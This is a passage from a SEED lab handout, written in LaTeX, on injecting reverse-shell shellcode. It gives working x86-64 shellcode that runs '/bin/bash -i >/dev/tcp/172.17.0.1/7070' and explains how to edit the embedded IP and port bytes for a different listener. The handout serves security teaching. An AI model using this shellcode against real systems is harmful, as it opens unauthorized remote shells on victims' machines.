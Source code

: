 
The shellcode for the reverse shell command is given below (it is
also included in the provided code skeleton). If students
are interested in learning how to write such a shellcode
from scratch, they can look at the instructions in
another SEED lab, called \textit{Shellcode Development Lab}.


\begin{lstlisting}
# Execute "/bin/bash -i >/dev/tcp/172.17.0.1/7070 0<&1 2>&1"
rev_shell= (
   "\x48\x31\xc0\x50\x48\xb8\x2f\x2f\x2f\x2f\x62\x61\x73\x68\x50\x48"
   "\xb8\x2f\x2f\x2f\x2f\x2f\x62\x69\x6e\x50\x48\x89\xe3\x48\x31\xc0"
   "\x50\x48\xb8\x2d\x63\x63\x63\x63\x63\x63\x63\x50\x48\x89\xe1\x48"
   "\x31\xc0\x50\x48\xb8\x20\x20\x20\x20\x32\x3e\x26\x31\x50\x48\xb8"
   "\x20\x20\x20\x20\x30\x3c\x26\x31\x50\x48"
   ##################################################
   "\xb8" "0.1/7070" "\x50\x48"    (*@\ding{192}@*)
   "\xb8" "/172.17." "\x50\x48"    (*@\ding{193}@*)
   ##################################################
   "\xb8\x2f\x64\x65\x76\x2f\x74\x63\x70\x50\x48\xb8\x68\x20\x2d\x69"
   "\x20\x3e\x20\x20\x50\x48\xb8\x2f\x62\x69\x6e\x2f\x62\x61\x73\x50"
   "\x48\x89\xe2\x48\x31\xc0\x50\x52\x51\x53\x48\x89\xe6\x48\x89\xdf"
   "\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05"
).encode('latin-1')
\end{lstlisting}

The objective of Lines  and  is to
save the IP address and port number part of the reverse shell
command string into the stack. These two lines have the same instructions:
they each saves (\textbackslash\texttt{xb8}) a 8-byte number to the \texttt{rax} register and
then pushes (\textbackslash\texttt{x50}\textbackslash\texttt{x48})
the value of this register into the stack. After running these
two lines of instructions, the following string will be stored on the stack.

\begin{lstlisting}
/172.17.0.1/7070
\end{lstlisting}

If your server has a different IP address and/or port number,
you need to modify these lines. You need to make sure that
each line takes string that is exactly 8 bytes. If your string is shorter,
you can pad it with extra spaces;
if your string is longer, you can create another line.
For example, if your IP address is \texttt{172.17.30.153},
you can do the following:

\begin{lstlisting}
   "\xb8" "070     " "\x50\x48"
   "\xb8" "30.153/7" "\x50\x48"
   "\xb8" "/172.17." "\x50\x48"
\end{lstlisting}

